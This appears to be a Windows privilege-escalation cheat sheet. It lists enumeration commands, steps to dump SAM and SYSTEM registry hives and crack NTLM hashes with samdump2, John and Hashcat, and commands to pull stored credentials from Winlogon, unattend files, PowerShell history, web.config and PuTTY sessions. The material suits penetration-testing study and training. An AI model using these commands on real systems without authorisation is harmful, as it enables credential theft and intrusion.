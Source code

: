 ### System Information

- `systeminfo`: Displays detailed configuration information about the computer.
- `hostname`: Shows the system's hostname.
- `wmic qfe get Caption,Description,HotFixID,InstalledOn`: Lists installed hotfixes.
- `wmic logicaldisk get name`: Displays logical drives.
- `net user`: Lists user accounts.
- `net user [username]`: Displays detailed information about a specific user.
- `whoami`: Shows the current user.
- `whoami /priv`: Displays the privileges of the current user.

### Network Information

- `ipconfig /all`: Displays all IP configuration information.
- `netstat -ano`: Shows active connections and listening ports.

## **Check User Permissions and Group Info (Filtered View)**

```bash
whoami /all | Select-String -Pattern "username" -Context 2,0

# example
whoami /all | Select-String -Pattern "wade" -Context 2,0
```
This command helps you **find out what groups or permissions a specific user (like `jareth`) has** on a Windows system. It searches through the detailed `whoami /all` output and shows any lines related to the user, along with 2 lines above it for extra context. Useful during **privilege escalation** to check if a user has powerful roles or tokens.

# Show folders recursive 

```bash
tree /f
```

# Dumping NTLM Hashes
#### Step 1: Save the Registry Hives
📝 Make sure you have administrative or SYSTEM privileges to run these commands.

```bash
# Stores user password hashes
reg save HKLM\SAM SAM   

# Contains the boot key used to decrypt the hashes
reg save HKLM\SYSTEM SYSTEM 

# May be used for further secrets (e.g., LSA secrets
reg save HKLM\SECURITY SECURITY 
```
#### Step 2: Extract Hashes Using `samdump2`
Once you have the `SAM` and `SYSTEM` hives, extract the hashes with: 

```
samdump2 SYSTEM SAM
```
#### Step 3: Crack the Hashes
I take the LM code of  and decode it through online site _Crackstation,_ you guys can try it with offline tools like: **_JohnTheRipper_** or **_Hashcat_**.
```bash
# _JohnTheRipper_
john --format=nt hash.txt --wordlist=rockyou.txt

#_Hashcat_
`hashcat -m 1000 hash.txt rockyou.txt`
```
## Winlogon Registry Key

---

### 📌 What is it?

The `Winlogon` registry key holds important **Windows login settings** such as:

- Auto-login username and password
- What program runs when a user logs in (like `explorer.exe`)
- Potential persistence or privilege escalation points for attackers

 Command to **Find stored plaintext credentials** (DefaultUsername/Password)

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

## **Unattended Windows Installations**

- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml

## **Powershell History**

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**Note:** The command above will only work from cmd.exe, as Powershell won't recognize `%userprofile%` as an environment variable. To read the file from Powershell, you'd have to replace `%userprofile%` with `$Env:userprofile`.

## **Saved Windows Credentials**

```bash
cmdkey /list
```

## **IIS Configuration**

- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

Here is a quick way to find database connection strings on the file:

```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

## **Retrieve Credentials from Software: PuTTY**

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

**Note:** Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.

## **Scheduled Tasks**

List all scheduled tasks

```bash
schtasks 
```

 Check details about a specific task

```bash
schtasks /query /tn vulntask /fo list /v
```

Check who can modify the file

```bash
icacls c:\tasks\schtask.bat
```

## **Unpatched Software:**

```bash
wmic product get name,version,vendor
```

- **`wmic`**
    - Stands for **Windows Management Instrumentation Command-line**
    - Used to gather system info from the Windows OS via command line
- **`product`**
    - Refers to **installed software/products** on the system
- **`get`**
    - Tells WMIC to **retrieve information**
- **`name,version,vendor`**
    - Specifies the **details to display** for each installed product:
        - `name` → software name
        - `version` → version number
        - `vendor` → software developer/company name
